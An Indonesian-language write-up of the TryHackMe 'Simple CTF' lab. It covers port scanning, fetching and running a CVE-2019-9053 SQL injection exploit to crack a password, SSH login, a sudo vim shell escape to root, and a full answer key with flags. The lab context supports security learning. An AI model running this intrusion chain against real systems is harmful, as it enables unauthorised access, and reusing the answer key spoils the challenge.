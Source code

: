 # CTF - Simple CTF
- TryHackMe Challenge: https://tryhackme.com/room/easyctf
- IP Machine: 10.10.128.226

## Port Scanning
- Lakukan port scanning dengan tool `nmap`
```sh
nmap -sC -sV <IP Machine>
```
- Berikut ini adalah hasil port scanning
```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sC -sV 10.10.128.226   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-06 20:21 EDT
Nmap scan report for 10.10.128.226
Host is up (0.21s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.142.62
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.37 seconds
```

- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%201.JPG)

## Gobuster
- Cari halaman web tersembunyi dengan tool `gobuster`
```sh
gobuster dir -u http://<IP_Machine> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%202.JPG)

## Gain Access
- Dari hasil tool gobuster ditemukan halaman **/simple** buka halaman tersebut di browser dengan url `http://<IP_Machine>/simple`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%203.JPG)

- Di halaman tersebut terdapat informasi bahwa halaman tersebut dibuat dengan CMS Made Simple versi 2.2.8

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%204.JPG)

- Cari exploit CMS tersebut di google

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%205.JPG)

- Di web https://www.exploit-db.com/exploits/46635 terdapat informasi bahwa celah keamanan CMS tersebut adalah SQL Injection (SQLi)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%206.JPG)

- Kita bisa mendownload script exploit di https://www.exploit-db.com/exploits/46635 untuk python versi 3 kita bisa mendownload script di https://github.com/e-renna/CVE-2019-9053 menggunakan wget
```sh
wget https://raw.githubusercontent.com/e-renna/CVE-2019-9053/master/exploit.py
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%207.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%208.JPG)

- Sekarang kita jalankan script `exploit.py` dengan menggunakan wordlists dari seclists yaitu `best110.txt`
```sh
python3 exploit.py -u http://<IP_Machine>/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%209.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2010.JPG)

- Proses exploit berhasil dan kita menemukan username dan password. Sekarang kita coba gunakan username dan password tersebut untuk mengakses SSH
```sh
ssh mitch@IP_Machine -p 2222
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2011.JPG)

- Setelah berhasil login, disana terdapat file **user.txt** yang berisi user flag
```sh
cat user.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2012.JPG)

- Pada directory home, selain ditemukan directory **mitch** juga ditemukan directory **sunbath**
```sh
ls /home
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2013.JPG)


## Privilege Escalation
- Sekarang kita lakukan pengecekan, apakah user `mitch` punya akses ke sudo
```sh
sudo -l
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2014.JPG)

- Setelah dicek, user `mitch` punya akses perintah `sudo` untuk menjalankan aplikasi **vim**. Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/vim/ untuk mendapatkan akses root melalui vim

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2015.JPG)

- Jalankan script diatas untuk mendapatkan akses user root
```sh
sudo vim -c ':!/bin/sh'
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2016.JPG)

- Sekarang kita tinggal membaca file `root.txt` sebagai root flag yang berada di direktori **/root**
```sh
cat /root/root.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2017.JPG)


## Pertanyaan dan Jawaban:

- **Pertanyaan:** How many services are running under port 1000?
```sh
2
```

- **Pertanyaan:** What is running on the higher port?
```sh
SSH
```

- **Pertanyaan:** What's the CVE you're using against the application?
```sh
CVE-2019-9053
```

- **Pertanyaan:** To what kind of vulnerability is the application vulnerable?
```sh
SQLi
```

- **Pertanyaan:** What's the password?
```sh
secret
```

- **Pertanyaan:** Where can you login with the details obtained?
```sh
SSH
```

- **Pertanyaan:** What's the user flag?
```sh
G00d j0b, keep up!
```

- **Pertanyaan:** Is there any other user in the home directory? What's its name?
```sh
sunbatch
```

- **Pertanyaan:** What can you leverage to spawn a privileged shell?
```sh
vim
```

- **Pertanyaan:** What's the root flag?
```sh
W3ll d0n3. You made it!
```